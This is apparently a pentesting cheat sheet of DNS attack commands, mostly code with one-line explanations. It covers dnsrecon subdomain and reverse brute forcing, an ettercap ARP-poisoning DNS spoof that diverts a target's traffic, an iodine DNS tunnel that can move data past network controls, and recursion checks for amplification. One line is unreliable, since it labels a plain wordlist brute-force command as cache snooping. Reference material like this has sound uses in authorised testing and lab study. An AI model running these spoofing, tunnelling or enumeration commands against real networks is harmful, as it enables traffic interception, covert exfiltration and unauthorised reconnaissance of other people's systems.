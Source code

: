 ### Brute Force
```bash
dnsrecon -d DOMAIN -t brt -D wordlist.txt -j dns_bruteforce.json
```
### DNS Reverse and Subdomain Brute Force
``` bash
dnsrecon -r 127.0.0.0/24 -n <IP_DNS>
dnsrecon -r 127.0.1.0/24 -n <IP_DNS>
dnsrecon -r <IP_DNS>/24 -n <IP_DNS>
dnsrecon -d active.htb -a -n <IP_DNS>
```

### DNS Cache Snooping
> Technique used to query the DNS cache to gather information about past DNS records. 
```bash
dnsrecon -t std -d hackviser.com -D /usr/share/dnsrecon/namelist.txt
```

### DNS Spoofing
> DNS spoofing involves introducing corrupt Domain Name System data into a DNS resolver's cache, causing the name server to return an incorrect IP address, diverting traffic to the attacker's computer.
```bash
ettercap -T -q -M arp:remote /<gateway-ip>// /<target-ip>// -P dns_spoof
```

### DNS Tunneling
> DNS Tunneling leverages DNS queries and responses to encapsulate data of other programs or protocols in DNS queries and responses.
```bash
# Server side
iodined -f -c <tunnel-ip> <domain>

# Client side
iodine <dns-server-ip> <domain>
```

### DNS Amplification 
> DDoS
```bash
nmap -p 53 --script=dns-recursion,dns-cache-snoop IP
dig ANY google.com @IP
```